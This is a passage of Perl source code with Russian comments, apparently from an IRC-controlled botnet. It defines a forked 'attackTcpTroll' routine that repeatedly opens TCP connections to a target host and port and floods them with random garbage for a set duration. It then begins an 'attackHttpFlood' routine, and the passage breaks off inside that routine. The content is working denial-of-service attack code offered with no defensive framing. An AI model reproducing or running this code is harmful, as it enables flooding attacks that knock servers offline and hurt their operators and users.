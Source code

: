 # TCP атака. тоже что и тролл, но с посылкой мусора в порт после коннекта. доп.параметр : максимальный размер мусорного реквеста.
sub attackTcpTroll {
	$SIG{CHLD} = \&REAPER;
	$child = fork;
	if ($child == 0){
		my $host = $_[0];
		my $port = $_[1];
		my $connects = $_[2];
		my $maxLen = $_[3];
		my $duration = $_[4];				

		if ($port eq '0'){	# todo
			$port = int rand (65535);
		}

		my $iaddr = inet_aton($host);
		my $paddr = sockaddr_in($port, $iaddr);
		my @sockPool;

		alarm (0);
		my $itime = time;
		my ($cur_time);
		$cur_time = time - $itime;

		print "attackTcpTroll started!\n";		

		while ($duration > $cur_time){
			$cur_time = time - $itime;
			for my $i (0..$connects){

				$contentLen = int ($maxLen / 3 + rand $maxLen);
				my $garbage = genGarbage($contentLen);
				#print "contentLen = $contentLen, garbage = $garbage\n";

				if (defined $sockPool[$i]) { close($sockPool[$i]); delete $sockPool[$i]; }
				socket($sockPool[$i], PF_INET, SOCK_STREAM, getprotobyname('tcp'));
				connect($sockPool[$i], $paddr);
				send ($sockPool[$i], $garbage, 0);
			}
		}
		exit;
	}else {
		return $child;
	}
}

# HTTP from IRC (парамерты : хост, длительность)
sub attackHttpFlood {
	$SIG{CHLD} = \&REAPER;
	$child = fork;
	if ($child == 0){
		my $host = $_[0];
		my $duration = $_[1];	
